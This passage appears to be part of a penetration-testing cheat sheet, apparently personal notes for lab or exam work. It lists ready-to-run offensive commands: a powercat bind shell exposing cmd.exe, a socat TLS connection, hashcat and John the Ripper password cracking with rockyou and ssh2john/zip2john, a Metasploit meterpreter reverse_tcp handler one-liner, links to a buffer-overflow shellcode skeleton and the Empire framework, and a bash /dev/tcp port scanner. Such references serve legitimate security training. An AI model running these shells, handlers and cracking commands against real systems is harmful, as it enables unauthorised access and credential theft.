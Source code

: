         - Client:
            
            ```bash
            socat - OPENSSL:$IP:$PORT,verify=0
            ```
            
    - `powercat`:
        
        ```powershell
        powercat -l -p $PORT -e cmd.exe
        ```
        

## 🔐 Cracking passwords hashes with `hashcat` and `john`

- Identifying hash with `hashid <hash>`
- `hashcat`: [hashcat - example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
    
    ```bash
    hashcat -m $ATTACK_MODE $FILE /usr/share/wordlists/rockyou.txt
    ```
    
    - `r /usr/share/hashcat/rules/best64.rule` (Rule-based Attack)

- `john` aka "John The Ripper":
    
    `john hash.txt [--wordlist=list.txt] [--rules] [--format=<format>]`
    
    - `unshadow`
    - `ssh2john $SSH_ENCRYPTED_KEY > id_rsa.john`
    - `zip2john $ZIP_FILE > $ZIP_FILENAME.john`
    - `kirbi2john`

➡️ [crackstation.net](https://crackstation.net/)

## 💉 Stack Buffer Overflow Shellcode Exploit (Skeleton)

➡️ [My skeleton script](https://github.com/amirr0r/notes/blob/master/Infosec/Pwn/shellcode-stack-buffer-overflow-exploit-skeleton.py) (for both Linux and Windows)

## 🦾 Miscellaneous

- Metasploit:
    - `msfconsole -r script.rc`
    - `msfconsole -qx "use multi/handler; set payload windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set AutoRunScript post/windows/manage/migrate; run"`
- [Empire](https://github.com/BC-SECURITY/Empire)
- Simple Port Scan in Bash:
    
    ```bash
    #!/bin/bash
    for port in {1..65535}; do
        timeout .1 bash -c "echo >/dev/tcp/<IP>/$port" &&
        echo "port $port is open"
    done
    echo "Scan complete!"
    ```
    
